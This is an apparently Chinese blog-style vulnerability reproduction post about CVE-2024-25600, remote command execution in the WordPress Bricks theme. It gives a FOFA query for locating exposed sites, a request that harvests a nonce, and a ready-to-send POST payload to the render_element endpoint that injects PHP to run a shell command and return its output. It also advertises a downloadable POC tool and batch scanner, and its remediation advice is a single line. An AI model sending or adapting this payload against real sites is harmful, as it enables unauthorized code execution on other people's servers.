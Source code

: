 #  WordPress的Bricks主题存在远程命令执行漏洞CVE-2024-25600 附POC软件   
南风徐来  南风漏洞复现文库   2024-02-23 22:52  
  
免责声明：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。  
该文章仅供学习用途使用。  
## 1. WordPress简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
WordPress的Bricks主题  
## 2.漏洞描述  
  
WordPress的Bricks主题存在远程命令执行漏洞  
  
CVE编号:CVE-2024-25600  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
WordPress的Bricks主题  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baPEicMDBF5Vx1icoxAnHsBkDqhA9ibY2KsqoHsNCb9Tb8JCb4xt1UTMicW5wO2fCDImIicFBYQNpU7Ag/640?wx_fmt=jpeg&from=appmsg "null")  
  
WordPress的Bricks主题存在远程命令执行漏洞  
## 4.fofa查询语句  
  
body="/wp-content/themes/bricks/"  
## 5.漏洞复现  
  
漏洞链接：https://127.0.0.1/wp-json/bricks/v1/render_element  
  
先访问一下目标，获取nonce 值  
```
GET / HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baPEicMDBF5Vx1icoxAnHsBkMnuozbK9C7R7UctFnaybVuToibptf5EPJjKJPzEfnOlL4YjicJXSfqKw/640?wx_fmt=jpeg&from=appmsg "null")  
  
将nonce值拼接到漏洞数据包：  
```
POST /wp-json/bricks/v1/render_element HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Type: application/json
Content-Length: 342

{
  "postId": "1",
  "nonce": "62112d803f",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "true",
      "query": {
        "useQueryEditor": true,
        "queryEditor": "ob_start();echo `id`;$output=ob_get_contents();ob_end_clean();throw new Exception($output);",
        "objectType": "post"
      }
    }
  }
}
```  
  
成功执行id命令：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baPEicMDBF5Vx1icoxAnHsBkDg7triaYhgDcic3t5IS7cfU528dRSCmviat4icaxOSa1qklDCXe9ic5vpicw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现103 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baPEicMDBF5Vx1icoxAnHsBkWrg8GhdvhWRKq3g30ibd5PED5NicAS3lhEdjEJqhYcZNIKbD02uicm6dg/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baPEicMDBF5Vx1icoxAnHsBk4Lhsggp4SQEXiauk6Mk3Q9YZv0TbMRdSbBlQXLsw0hkYNWyib1nU8L8Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baPEicMDBF5Vx1icoxAnHsBkMs4VcwgicPr71icdCr5Y8Ffbnw2mYobo4362L2wN5jdwU8m9iaja6OBnA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baPEicMDBF5Vx1icoxAnHsBkeNRiakf8OWfgjMDR9CyxicX7r6OH4pHpvDqicTOmsG2wh25W1EOJDCXcA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baPEicMDBF5Vx1icoxAnHsBkCCd5Daz8R9DVDAUzI4ZqPSMiapkoTubUXzLgcDl0iatNVC3LyMcFgCsQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3baPEicMDBF5Vx1icoxAnHsBkgUIGrxDu0TKBU7CicDZE1MRjjbj4qN9yeQ2icWqM1vEg1bibVJKRY4QvQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
[用友U8-OA协同工作系统doUpload.jsp接口存在任意文件上传漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485320&idx=1&sn=2958c0f06328b36f2bab443697ae07ef&chksm=974b8a8fa03c039946f61ec067ca5399568bbf38d914733eb26c6844ed8518eba757345acd14&scene=21#wechat_redirect)  
  
  
[JeePlus低代码开发平台存在SQL注入漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485320&idx=2&sn=7d251cedef0212dd6d6e21ee57ee8b7c&chksm=974b8a8fa03c0399d97e2aabc1d30175f30e499302bc738061287686c64b7171406f520aead9&scene=21#wechat_redirect)  
  
  
